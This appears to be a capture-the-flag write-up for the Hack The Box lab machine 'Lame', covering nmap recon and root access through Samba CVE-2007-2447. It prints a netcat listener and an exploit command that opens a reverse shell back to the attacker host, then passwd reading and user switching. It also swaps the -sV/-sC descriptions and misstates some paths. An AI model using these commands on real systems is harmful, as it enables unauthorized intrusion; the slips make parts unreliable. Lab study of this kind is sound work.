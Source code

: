 # Lame

## Recon
We're given the IP address of a machine that we don't know much about. Looking at the tags associated with this machine (Internal, Network, SAMBA, CVE-2007-2447), it's quite clear that this will be an easy exploit centered around samba 3.x

The first task is to look at the ports open on Lame. The command i used was nmap -sV -sC 10.10.10.3
```
-sV: run the default scripts
-sC: probe ports for the versions run on them
-Pn: treat host as online
```

After a few seconds, we see the following information of note:
```
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

```
FTP is open on port 21! We can log in as ftp, and anonymous login is allowed.

```
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```
Samba 3.0.20 is open on port 445. Quickly googling CVE-2007-2447 lets us know that this is *easily* exploitable to get remote code execution.


Honestly, at this point I went ahead and exploited this vulnerability right away without checking for other vulnerabilities.
*--------------------------------------------------------------------------------------------------------------------------------------------------------*

## Exploitation

After having a further look at this CVE online, I found that there was a tool that essentially automates the initialization of a remote shell using this version of Samba.

[Amriunix's CVE-2007-2447 On Github](https://github.com/amriunix/CVE-2007-2447)

I followed the instructions on the page cloning the repository and got it set up on my host machine. Looking at the usage instructions, we arm the tool in the following format: `python usermap_script.pt <RHOST> <RPORT> <LHOST> <LPORT>`. I set up Netcat to listen on port 9999: `nc -lnvp 9999` and prepared the CVE: `python usermap_script.py 10.10.10.3 445 10.10.14.8 9999`

Upon launching the command, I saw that I'd caught a shell on port 9999 in netcat. Upon typing *whoami* I found that i was root.

*--------------------------------------------------------------------------------------------------------------------------------------------------------*

## Remote Code Execution

The first thing i did was *accidentally* get the system own, and steal the root flag at /home/root. I submitted the flag and double checked that there was actually a user to own. 

There was.

I may have jumped the gun.

To determine who else could be a user on this machine, I entered `cat hosts/passwd`, and sure enough there's a name of interest at the bottom of our list.
```
makis:x:1003:1003::/home/makis:/bin/sh
```

Since we're already logged in as root, it's a simple as entering `su makis`, logging in as that user. After gaining access to Makis' account, I simply repeated the process for stealing the root flag found instead this time under /home/makis.
